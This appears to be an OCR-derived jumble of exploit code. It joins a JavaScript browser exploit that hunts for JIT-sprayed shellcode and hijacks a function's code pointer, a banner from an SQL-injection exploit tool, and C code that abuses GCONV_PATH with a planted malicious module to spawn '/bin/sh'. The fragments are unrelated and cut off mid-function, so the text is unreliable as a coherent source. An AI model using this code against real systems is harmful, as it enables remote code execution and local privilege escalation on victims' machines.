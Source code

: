 return 0.0;
for(var i = 0; i < 1000; i++) { // 1000 QWORDs give me the most stable result. The more double float constants are in the JIT'd function, the more handler code seems to precede them.
    HelperDbl[0] = ScanPtr;
    var DblVal = StrongLeakDbl(ScanPtr); // The JIT'd ASM code being scanned is likely to contain 8 byte sequences which will not be interpreted as doubles (and will have tagged pointer bits set). Use explicit/strong primitive for these reads.
    
    if(DblVal == 5.40900888e-315) {
        HelperDbl[0] = ScanPtr;
        HelperDword[0] = HelperDword[0] + 8; // Skip over egg bytes and return precise pointer to the shellcode
        return HelperDbl[0];
    }
    
    HelperDbl[0] = ScanPtr;
    HelperDword[0] = HelperDword[0] + 8;
    ScanPtr = HelperDbl[0];
}

return 0.0;
var JITCodePtr = GetJSFuncJITCodePtr(JITSprayFunc);

if(JITCodePtr) {
    // Setup the strong read primitive for the stage one egg hunter: attempting to interpret assembly byte code as doubles via weak primitive may crash the process (tagged pointer bits could cause the read value to be dereferenced as a pointer)
    
    HelperDbl[0] = JITCodePtr;
    DebugLog("JIT spray code pointer is 0x" + HelperDword[1].toString(16) + HelperDword[0].toString(16));
    InitStrongRWPrimitive();
    ShellcodeAddress = EggHunter(JITCodePtr); // For this we need the strong read primitive since values here can start with 0xffff and thus act as tags

    if(ShellcodeAddress) {
        // Trigger code exec by calling the JIT sprayed function again. Its code pointer has been overwritten to now point to the literal shellcode data within the JIT'd function
        
        HelperDbl[0] = ShellcodeAddress;
        DebugLog("Shellcode pointer is 0x" + HelperDword[1].toString(16) + HelperDword[0].toString(16));
        var JITInfoAddress = GetJSFuncJITInfoPtr(JITSprayFunc);
        WeakWriteDbl(JITInfoAddress, ShellcodeAddress);
        JITSprayFunc(); // Notably the location of the data in the stage two shellcode Uint8Array can be found at offset 0x40 from the start of the array object when the array is small, and when it is large a pointer to it can be found at offset 0x38 from the start of the array object. In this case though, the stage one egg hunter shellcode finds, disables DEP and ADDITIONALLY executes the stage two shellcode itself, so there is no reason to locate/execute it from JS.
    }
    else {
        DebugLog("Failed to resolve shellcode address");
    }
}
                                                        [+] 404 to 301 - SQL-Injection
                                                        [@] Developed by Ron Jost (Hacker5preme)
execve("/bin/sh", NULL, NULL);
system("mkdir GCONV_PATH=.");
system("touch GCONV_PATH=./" DIR " && chmod 777 GCONV_PATH=./" DIR);
system("mkdir " DIR);
system("echo 'module\tINTERNAL\t\t\tryaagard//\t\t\t" EVILSO "\t\t\t2' > " DIR "/gconv-modules");
system("cp " EVILSO ".so " DIR);
